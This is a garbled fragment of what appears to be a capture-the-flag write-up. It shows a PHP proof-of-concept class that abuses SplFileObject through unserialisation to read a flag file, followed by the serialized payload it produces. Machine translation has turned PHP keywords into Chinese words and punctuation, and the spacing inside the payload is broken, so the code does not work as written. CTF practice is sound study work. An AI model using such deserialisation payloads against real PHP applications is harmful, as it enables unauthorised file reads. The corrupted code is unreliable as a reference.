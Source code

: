 ``

    
    
    1   
    2   
    3   
    4   
    5   
    6   
    7   
    8   
    9   
    10  
    

|

    
    
      
    class  A { public $class = 'SplFileObject' ;    // SplFileObject("/var/www/html/aMaz1ng_y0u_coUld_f1nd_F1Ag_hErE/flag.php") public $para = "/var/www/html/aMaz1ng_y0u_coUld_f1nd_F1Ag_hErE/flag.php" ; 公共$check ;     }  
           
          
           
           
      
      
    $poc   = new A();   
    回声序列化（$poc）；  
      
  
---|---  
  
`  
`

`得到有效载荷：`

`  
`

``

`PHP`

``

    
    
    1  
    

|

    
    
    O: 1 : "A" : 3 :{s: 5 : "class" ;s: 13 : "SplFileObject" ;s: 4 : "para" ;s: 55 : "/var/www/html/aMaz1ng_y0u_coUld_f1nd_F1Ag_hErE/flag .php" ;s: 5 : "check" ;N;}  
      
  
---|---  
  
